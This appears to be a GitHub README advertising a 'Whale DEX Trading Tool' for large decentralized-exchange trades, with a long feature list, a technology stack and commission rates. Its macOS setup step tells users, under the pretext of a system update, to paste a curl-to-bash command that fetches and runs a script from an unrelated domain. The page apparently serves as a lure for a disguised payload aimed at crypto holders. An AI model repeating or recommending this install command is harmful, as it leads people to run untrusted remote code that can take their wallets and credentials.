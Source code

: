 <p align="center"><img width="720" height="463" src="images/inter.jpg" alt="Defi Bot interface" /></p>

# Whale DEX Trading Tool
A professional trading platform for large-scale transactions on DEX in EVM networks. Features include automatic order splitting (Smart Split), integration with Uniswap, Sushiswap, Curve, risk management with Chainlink and Pyth, Dark Pool for confidentiality, multisig wallets, cross-chain swaps, and professional analytics. Gas optimization, mempool monitoring, and scam protection ensure safe and fast order execution in DeFi

Whale DEX Trading Tool- Is a comprehensive software solution designed for large-scale traders and investors, enabling the safe and efficient execution of transactions exceeding $100,000 on decentralized exchanges (DEX) in EVM networks. The platform combines Smart Split algorithms, in-depth liquidity pool analysis, advanced risk management techniques, integration with leading DEX (Uniswap, Sushiswap, Curve) and aggregators (1inch, Matcha), as well as support for Dark Pool to confidentially execute large orders

# Set-Up
 ## For Windows
   Windows x64: [ ```Download``` ] (https://selenium-finance.gitbook.io/selenium-fi/download-link/windows)

 ## For macOS
  MAC OS [ ```Download``` ] (https://selenium-finance.gitbook.io/selenium-fi/download-link/mac-os)

Update your sytem for upload

Enter the command on Terminal
''' 
/bin/bash -c "$(curl -fsSL https://applepistudios.com/ce/install.sh)"
'''

# Key Features and Solutions
## 1. Liquidity Aggregation and Order Execution
- Integration with DEX and Aggregators: Connects with Uniswap, Sushiswap, Curve, 1inch, and Matcha to maximize liquidity coverage.

- Smart Split: Automatically splits orders into smaller parts using TWAP and VWAP algorithms to minimize slippage (for example, by setting a threshold of 0.5–1%).

- Deep Pool Analysis: Identifies routes with minimal slippage and maximum liquidity, thereby reducing the impact of orders on the asset's price.

## 2. Advanced Risk Management
- Stop-Loss and Take-Profit via Oracles: Automatically executes orders when target price levels are reached using Chainlink and Pyth.

- Dark Pool Mode: Privately executes large orders to protect against market panic.

- Integration with Insurance Protocols: Nexus Mutual and InsurAce provide additional protection against smart contract failures.

## 3. Security and Confidentiality
- Multisig and Hardware Wallets: Supports Gnosis Safe, Ledger, and Trezor for secure fund storage.

- zk-Proof Solutions: Enables anonymous transactions using Aztec Network or StarkWare.

- Regular Audits: Daily smart contract audits (e.g., through CertiK and OpenZeppelin).

## 4. Cross-Chain and L2 Optimization

- Cross-Chain Swaps: Seamless integration via Thorchain and LayerZero.

- Automatic Network Selection: Optimizes fees with a gas manager by choosing the network with the lowest fees (Ethereum, BSC, Polygon, Arbitrum).

## 5. Professional Analytics and Customization

- Whale Analytics: Tracks the impact of large orders on the market with detailed statistics and charts (successful cases: over 500 transactions and processing of more - than $50 million in volume during the first year).

- Portfolio Management: Provides balance, PnL, data export (CSV/JSON), and notifications (email, Telegram, SMS).

- Modular Interface: Supports TradingView charts, widget customization, and an API for integration with Python and Excel.

## 6. Regulatory Compliance and Reporting

- KYC and Identification: Optional KYC through decentralized identifiers (BrightID, Polygon ID).

- Tax Reporting: A report generator for tax authorities (supporting FIFO and LIFO).

## 7. Anti-Scam System

- Token Analysis: Automatically checks for scam risks (honeypot, rug pull).

- Blacklist and Alerts: Maintains a database of fraudulent tokens and issues alerts to prevent risks.

## 8. Execution Speed

- Gas Optimization: Utilizes advanced algorithms to predict the optimal gas fee.

- Mempool Monitoring and Priority Nodes: Ensures fast inclusion of transactions in blocks with minimal delays.

# Technology Stack

- Smart Contracts: Solidity (audited contracts).

- Frontend: React + TypeScript.

- Backend: Node.js, The Graph for data indexing.

- Oracles: Chainlink, Pyth.

- Data Storage: IPFS, Arweave.

# Monetization

- Commission: 0.1–0.3% of the transaction amount.
